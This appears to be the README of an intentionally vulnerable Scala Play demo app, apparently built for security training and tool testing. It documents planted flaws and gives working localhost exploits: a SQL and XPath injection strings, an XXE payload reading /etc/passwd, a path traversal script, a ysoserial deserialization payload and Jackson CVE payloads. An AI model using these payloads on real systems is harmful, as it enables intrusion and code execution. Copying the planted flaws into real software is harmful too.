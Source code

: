 # Package

```
$ sbt stage
$ file ./target/helloshiftleft-play-jpa-scala-0.0.1-SNAPSHOT.jar    
```

```
$ sbt run 
```

# Http routes  

See routes at [config/routes](config/routes).

Use `localhost` as host name in the URLs 

To interact with the endpoints use `curl` (or any other tool)

+ GET /account
+ GET /createCustomer
+ POST /account `curl localhost:8082/account -X POST -H "Content-Type: application/json" --data '{ "accountNumber": 1337, "routingNumber": 1222 }'`
+ GET /customers 
+ GET /customersXML


# Package standalone (not officially supported by Play)

```
$ sbt assembly
$ java -Dplay.server.http.port="8082" -Dplay.server.http.address="127.0.0.1" -jar ./target/helloshiftleft-play-jpa-scala-assembly-0.0.1-SNAPSHOT.jar
```

# Vulnerability coverage table

The following table shows vulns category implemented in HSL grouped according to OWASP standards.

| OWASP category              | Vuln description                                  |
| ----------------------------|-------------------------------------------------- |
| A1-Injection                | Sql Injection                                     |
| A2-Broken Auth              | missing HttpOnly Cookie                           |
| A3-Sensitive Data Exposure  | Weak crypto, clear text storage of sensitive data |
| A4-XXE                      | XML XXE attack                                    |
| A5-Broken Access Control    | Path traversal                                    |
| A6-Sec misconfiguration     | not present yet                                   |
| A7-XSS                      | reflected XSS attack                              |
| A8-Insecure deserialization | Java deserialization attacks                      |
| A9-Known Vulnerabilities    | we use a vulnerable version of jackson            |

# A1 SQL Injection

There are two SQL injection vulns, the first one in `getRawCustomer` and the second in `getRawCustomerByName`.
To exploit it you can interact with the endpoint in this way:

Normal behavior: ```curl "http://localhost:8082/rawcustomersbyname/Joe"```

Exploit: ```curl "http://localhost:8082/rawcustomersbyname/Joe%20'%20or%20'1'='1"```

# A2 missing HttpOnly cookie flag

The endpoint `/admin/login` reachable via POST request, does not set the cookie as HttpOnly.

# A4 XXE

The endpoint `/customersXML` suffers from an XXE vulnerabily.

```
curl  \
  --header "Content-type: application/xml" \
  --request GET \
  --data '<name>Guillaume</name>' \
  http://localhost:8082/customersXML
```

To exploit the XXE modify the payload above with the malicious one below:

```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <firstName>John</firstName>
 <name>&ent;</name>
</userInfo>
```
Then you can use the following `curl` command to trigger the vulnerability:
```
curl -i -s -k  -X $'GET' \
    -H $'Host: localhost:8082' -H $'User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' -H $'Accept-Language: en-GB,en;q=0.5' -H $'Accept-Encoding: gzip;q=0,deflate,sdch' -H $'Content-type: application/xml' -H $'Cookie:' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Content-Length: 168' \
    --data-binary $'<!--?xml version=\"1.0\" ?-->\x0d\x0a<!DOCTYPE replace [<!ENTITY ent SYSTEM \"file:///etc/passwd\"> ]>\x0d\x0a<userInfo>\x0d\x0a <firstName>John</firstName>\x0d\x0a <name>&ent;</name>\x0d\x0a</userInfo>' \
    $'http://localhost:8082/customersXML'
```


As result, the output will contain the passwd file.

# A5 directory traversal

`saveSettings` contains a arbitrary file write vulnerability. The file relative path is extracted from the attacker controllable cookies.
To exploit the vuln use the `filewriteexploit.py` script, as shown below:

```
python dirtraversalexploit.py http://localhost:8082/saveSettings ../../../../../../../tmp/pwn asd
```
The above script will send the payload to the url specified as first argument, the relative path that will be used for the 
directory traversal is passed as second argument.

# A7 XSS

There is a reflected XSS in `/consumers/`. To exploit it visit the `/createConsumer` page and specify any malicious payload in the form.

# A8 Java deserialization 

`/unmarsh` retrives the `lol` parameter from the received POST request, decode64 its values and finally calls `readObject`.
To create the payload run `DoSerializeRCE` and then use its output to build the POST query as following:

```
curl localhost:8082/unmarsh  -X POST --data-urlencode "lol=rO0ABXNyABNEb1NlcmlhbGl6ZVJDRSRFdmlsx/E6K8+e2zIDAAB4cHg="
``` 
```
curl localhost:8082/unmarsh -X POST --data-urlencode "lol=`cat commons5.b64`"
```

```
java -jar target/ysoserial-0.0.6-SNAPSHOT-all.jar CommonsCollections5 /usr/bin/xcalc > commons5.bin
base64 commons5.bin | tr -d '\040\011\012\015'> commons5.b64
```

# A9 Jackson

The route `/bean1599` accepts POST operations and deserializes via Jackson the received body data. 
The file `exploit.json` contains the payload for CVE-2017-17485. 
Instead, the file `exploitold.json` provides the payload for CVE-2017-7525.

To run the exploit, first run the server with `sbt run` then type following commands:

```
export payload=`cat exploit.json`
curl localhost:8082/bean1599 -X POST -H "Content-Type: application/json" -d "$payload"
``` 

+ https://adamcaudill.com/2017/10/04/exploiting-jackson-rce-cve-2017-7525/
+ https://github.com/irsl/jackson-rce-via-spel




# XPath injection

After starting the service it is possible to bypass the credential check with this URL: http://localhost:8082/checkAccount/admin/x'%20or%20'1'='1 . This results in the following xpath query: `//user[username/text()='admin' and password/text()='x' or '1'='1']` and the message `Hello admin`.

If you provide wrong credentials the handler returns `Error with your credentials!`. Syntax errors as http://localhost:8082/checkAccount/admin/x' result in the error message `A server error occurred: javax.xml.xpath.XPathExpressionException: javax.xml.transform.TransformerException: misquoted literal... expected single quote!` 


